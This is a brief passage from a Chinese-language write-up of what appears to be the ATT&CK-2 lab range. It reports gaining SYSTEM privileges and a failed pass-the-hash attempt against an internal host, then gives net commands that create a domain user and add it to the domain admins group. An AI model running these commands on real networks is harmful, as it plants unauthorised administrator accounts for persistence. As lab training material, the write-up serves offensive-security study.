 ![Untitled](ATT&CK-2%204ee62577f68b4c6f932f048639d26d48/Untitled%2017.png)

攻击成功，直接得到system权限

对`10.10.10.201`尝试hash传递失败

使用域控登录10.10.10.201显示用户已登录，通过域控再创建一个域管理员

```c
net user test Aa123456! /add /domain   //添加域用户
net group "domain admins" test /add /domain  //将用户加入域管理员组
```

![Untitled](ATT&CK-2%204ee62577f68b4c6f932f048639d26d48/Untitled%2018.png)
